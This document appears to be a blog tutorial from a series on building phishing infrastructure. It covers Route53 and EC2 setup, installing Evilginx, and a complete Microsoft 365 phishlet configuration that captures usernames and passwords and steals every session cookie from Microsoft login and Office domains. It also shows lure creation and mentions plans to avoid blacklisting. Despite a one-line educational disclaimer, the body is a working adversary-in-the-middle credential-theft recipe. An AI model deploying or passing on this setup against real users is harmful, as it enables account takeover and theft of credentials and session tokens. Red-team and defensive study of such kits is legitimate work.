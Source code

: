 ```yaml
---
# categories:
# - Phishing
# - Evilginx
# tags:
# - Phishing
# - Evilginx
toc: true

---
```


> **Note**: This guide is for educational purposes only to understand phishing techniques and improve defense mechanisms.

### Setting up the Domain

This post continues our series on understanding phishing infrastructure. We'll cover setting up a domain on AWS EC2 and configuring phishlets.

### Setting up the Nameservers with Route53

1. Create a hosted zone in Route53
2. Configure nameservers for your domain

### Setting up the VPS with EC2

1. Launch an Ubuntu free-tier instance
2. Generate SSH key pair
3. Configure network settings:
   - Allow SSH from your IP only:
   ```bash
   # Get your public IP
   curl http://ipinfo.io/ip 
   ```
   - Allow HTTP/HTTPS (port 80/443) from anywhere
   - Allow DNS (port 53) from anywhere

### Installing and Configuring Evilginx

1. Install Go:

```bash
sudo apt update
cd ~
curl -OL https://golang.org/dl/go1.21.6.linux-amd64.tar.gz
sha256sum go1.21.6.linux-amd64.tar.gz
sudo tar -C /usr/local -xvf go1.21.6.linux-amd64.tar.gz

# Add Go to PATH
echo "export PATH=\$PATH:/usr/local/go/bin" >> ~/.profile
source ~/.profile
go version
```

2. Install Evilginx:
```bash
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2
make
sudo ./build/evilginx -p /phishlets/
```

3. Basic Evilginx commands:

```bash
# View help
help

# Configure domain
config domain yourdomain.com

# Configure instance IP
config ipv4 your.instance.ip
```

### Configuring the M365 Phishlet

Create a phishlet configuration file:

```yaml
min_ver: '3.2.0'
proxy_hosts:
  - {phish_sub: 'login', orig_sub: 'login', domain: 'microsoftonline.com', session: true, is_landing: true}
  - {phish_sub: 'logon', orig_sub: 'login', domain: 'live.com', session: true, is_landing: false}
  - {phish_sub: 'www', orig_sub: 'www', domain: 'office.com', session: true, is_landing: false}
sub_filters:
auth_tokens:
  - domain: '.live.com' #domain that sends the cookie
    keys: ['.*:regexp'] #name of cookie to steal
  - domain: 'live.com'
    keys: ['.*:regexp']
  - domain: '.login.live.com'
    keys: ['.*:regexp']
  - domain: 'login.live.com'
    keys: ['.*:regexp']
  - domain: '.login.microsoftonline.com'
    keys: ['.*:regexp']
  - domain: 'login.microsoftonline.com'
    keys: ['.*:regexp']  
  - domain: '.microsoft.com'
    keys: ['.*:regexp'] 
  - domain: 'microsoft.com'
    keys: ['.*:regexp']
  - domain: '.office.com'
    keys: ['.*:regexp']
  - domain: 'office.com'
    keys: ['.*:regexp']
  - domain: '.www.office.com'
    keys: ['.*:regexp']
  - domain: 'www.office.com'
    keys: ['.*:regexp']
auth_urls:
  - '/landingv2'
credentials:
  username:
    key: 'login'
    search: '(.*)'
    type: 'post'
  password:
    key: 'passwd'
    search: '(.*)'
    type: 'post'
login:
  domain: 'login.microsoftonline.com'
  path: '/' # path to where the login is, on the domain.    
```

### DNS Configuration

Point these subdomains to your instance IP:
- login.yourdomain.com
- logon.yourdomain.com
- www.yourdomain.com

### Creating Lures

```bash
# Create a lure for M365
lures create m365

# Get the phishing URL
lures get-url <id>
```

### Additional Security Measures

To prevent blacklisting, we'll set up a secondary domain with Apache in the next part of this series.

---

